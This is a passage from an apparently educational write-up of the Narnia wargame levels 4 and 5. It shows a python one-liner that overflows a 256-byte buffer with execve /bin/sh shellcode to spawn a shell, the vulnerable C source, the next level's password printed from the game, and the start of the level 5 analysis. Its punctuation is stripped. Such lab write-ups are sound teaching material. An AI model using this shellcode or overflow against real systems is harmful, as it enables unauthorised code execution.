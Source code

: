 narnia4 narnia  narnia    narnia4   python  c  print  A  264  x58xd4xffxff  4  x9  
0  100  x6ax0bx58x99x52x66x68x2dx70x89xe1x52x6ax68x68x2fx62x61x73x  
68x2fx62x69x6ex89xe3x52x51x53x89xe1xcdx80     
Segmentation fault

This was the same problem that occurred in Narnia 2  Just as we did in Narnia 2  tweaking the return address by slightly incrementing it results in the successful execution of the shellcode 

   highlight bash   
narnia4 narnia  narnia    narnia4   python  c  print  A  264    x90xd4xffxff  4  x90  100  x6ax0bx58x99x52x66x68x2dx70x89xe1x52x6ax68x68x2fx62x61x73  
x68x2fx62x69x6ex89xe3x52x51x53x89xe1xcdx80     
bash 4 4  whoami  
narnia5  
bash 4 4  cat  etc narnia pass narnia5  
faimahchiy
   endhighlight   

    Source Code

   highlight c   
 include  string h   
 include  stdlib h   
 include  stdio h   
 include  ctype h   
  
extern char   environ int main int argc char   argv     int i    char buffer 256     for i   0  environ i     NULL  i          memset environ i    0   strlen environ i       if argc 1        strcpy buffer argv 1      return 0   
 
   endhighlight   

The source code does not agree with what we saw in Ghidra  This is because Ghidra is converting the assembly instructions into c code  and for loops look similar to while loops  We can see from the source code that the program is setting 256 bytes to a buffer  and it is not performing any sort of boundary checks  10    ftnt10   a detection of the size of the input before it is used  

Narnia 5
        

After exploiting the narnia4 binary  we now have the necessary permissions to execute the narnia5 binary  

    Binary Analysis

We can start by executing the narnia5 binary to see how it normally behaves 

     reports Narnia image3 png 

We can see from the output that we are meant to change the value for the local variable called i  Furthermore  entering an input such as AAAA into the binary  we can see that the input gets reflected 

     reports Narnia image5 png 

After fiddling around with the input  we can find that the buffer accepts a total of 63 bytes  We can analyze this binary further with Ghidra 

   highlight c   
undefined4 main undefined4 param 1 int param 2   
  